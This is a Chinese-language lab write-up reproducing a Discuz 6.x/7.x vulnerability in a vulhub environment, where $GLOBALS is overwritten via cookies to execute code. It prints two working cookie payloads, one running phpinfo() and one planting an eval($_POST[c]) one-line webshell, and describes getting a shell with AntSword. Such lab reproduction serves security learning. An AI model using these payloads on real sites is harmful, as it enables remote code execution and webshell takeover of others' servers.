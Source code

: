 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

###### by ADummy

### 0x00利用路线

​			Discuz任意帖子页面--->cookie注入命令--->命令执行(phpinfo()或eval一句话)--->getshell

### 0x01漏洞介绍

​			由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞

​			影响版本

  		Discuz 6.x/7.x

### 0x02漏洞复现

#### payload1：

GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();

#### payload2：

GLOBALS[_DCACHE][ smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;

​			安装Discuz，数据库地址为**db**，数据库名为**discuz**，数据库账号密码均为**root**

![Discuz_7_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_1.jpg)

​			打开任意一个帖子界面

​				![Discuz_7_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_2.png)

​			Burpsuite抓包，修改**cookie**值，第一个**payload**。

![Discuz_7_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_3.jpg)

​			可以看到**phpinfo()**被执行

![Discuz_7_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_4.jpg)

​			使用蚁剑连接，设置header中的cookie字段，将一句话木马写入

![Discuz_7_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_5.jpg)

![Discuz_7_6](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_6.jpg)

​			至此getshell

![Discuz_7_7](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Discuz_7_7.jpg)



### 0x03总结

​				在vulfocus上的Discuz系列getshell一直没有成功过，有些后台模板注入玩过，但是一直没复现。

此次在vulhub上成功复现，还是很开心的。

### 0x04参考资料

https://www.secpulse.com/archives/2338.html